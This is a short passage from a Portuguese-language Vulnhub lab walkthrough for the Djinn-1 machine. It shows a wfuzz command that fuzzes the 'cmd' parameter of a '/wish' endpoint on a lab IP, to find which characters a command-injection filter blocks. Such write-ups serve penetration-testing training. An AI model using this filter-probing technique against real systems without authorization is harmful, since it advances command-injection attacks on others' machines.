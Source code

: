 ![](/assets/img/Vulnhub/Djinn-1/bad-char.png)


### Wfuzz - Verificar Badchars


* Como ja sabemos que existe um filtro para alguns caracteres, vamos rodar o wfuzz para encontrar quais sao os nossos badchars. Econtramos essa solucao no blgo do [0x4rt3mis](https://0x4rt3mis.github.io/vulnhub/oscp/2021/01/27/VulnHub-Djinn-1/)

```bash
wfuzz -c --hh 231,385 -w /usr/share/wordlists/SecLists/Fuzzing/special-chars.txt -d 'cmd=FUZZ' -u http://192.168.150.116:7331/wish
```

![](/assets/img/Vulnhub/Djinn-1/wfuzz-wish.png)
